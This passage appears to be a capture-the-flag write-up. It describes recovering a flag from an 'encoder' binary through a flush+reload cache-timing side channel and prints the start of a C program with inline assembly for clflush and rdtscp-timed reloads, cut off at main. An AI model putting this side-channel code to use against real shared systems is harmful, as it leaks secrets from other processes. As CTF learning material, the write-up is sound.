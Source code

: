 As a side note we actually used the instruction `rdtscp` which prevents the CPU
to rearrange the instructions and possibly skewing the timing.

# Solution

To test our attacks we bought a one core machine at a hosting service. We also
modified the flag in the `encoder` binary to be `CTF-BR{AA..AA}`. This helped
a lot in figuring out the first steps.

The first part of our solution was to find out which characters are being used
in the flag.

An important observation is, that thanks to the way the `emojiLib` list is 
structured each character/emoji corresponds to one cache line.

To find that out we wrote a program, which does a flush and reload for each letter
in the given alphabet.

```c
#include <stdio.h>
#include <assert.h>
#include <stdint.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <string.h>

// #define ITERATIONS 192000
#define ITERATIONS 90000
#define LIB_OFFSET 0x4380
#define NUM_CHARS  (127 - 0x2d)

void *getEmojis();

__attribute__((naked))  void clflush(volatile void *p) {
    asm volatile (  "mfence;"
                    "clflush [rdi];"
                    "mfence;"
                    "ret" :::);
}

__attribute__((naked)) uint64_t time_foo(volatile void *p){
    asm volatile( 
        "push rbx;"
        "mfence;"
        "xor rax, rax;"
        "mfence;"       
        "rdtscp;"         // before
        "mov rbx, rax;"
        "mov rdi, [rdi];" // RELOAD
        "rdtscp;"         // after
        "mfence;"    
        "sub rax, rbx;"   // return after - before
        "pop rbx;"
        "ret;" :::
    );
}

int pseudo_sleep(size_t iter){
    for (size_t i = 0; i < iter; i++);
    return 0;
}

int main(int argc, char **argv) {
    void *emojilib = getEmojis();
```